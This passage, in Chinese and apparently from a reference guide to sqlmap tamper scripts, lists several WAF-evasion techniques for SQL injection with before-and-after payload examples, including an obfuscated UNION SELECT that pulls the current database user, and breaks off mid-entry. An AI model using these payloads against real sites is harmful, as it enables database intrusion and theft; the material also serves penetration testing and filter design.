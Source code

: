 作用：注释绕过

示例：

```
1 UNION ALL SELECT NULL, NULL, CONCAT(CHAR(58,122,114,115,58),IFNULL(CAST(CURRENT_USER() AS CHAR),CHAR(32)),CHAR(58,115,114,121,58))#
1/*!UNION**!ALL**!SELECT**!NULL*/,/*!NULL*/,/*!CONCAT*/(/*!CHAR*/(58,122,114,115,58),/*!IFNULL*/(CAST(/*!CURRENT_USER*/()/*!AS**!CHAR*/),/*!CHAR*/(32)),/*!CHAR*/(58,115,114,121,58))#
```

版本要求:

```
MySQL >= 5.1.13
```

**2:securesphere.py**

作用：追加特制的字符串

示例：

```
'1 AND 1=1'
"1 AND 1=1 and '0having'='0having'"
```

在以下版本做过测试:

All

**3:charunicodeencode.py**

作用：字符串 unicode 编码

示例：

```
SELECT FIELD%20FROM TABLE
%u0053%u0045%u004c%u0045%u0043%u0054%u0020%u0046%u0049%u0045%u004c%u0044%u0020%u0046%u0052%u004f%u004d%u0020%u0054%u0041%u0042%u004c%u0045′
```

版本要求:

```
ASP
ASP.NET
在以下版本做过测试:
Microsoft SQL Server 2000
Microsoft SQL Server 2005
MySQL 5.1.56
PostgreSQL 9.0.3
```

**4:charencode.py**

作用：url 编码

示例：
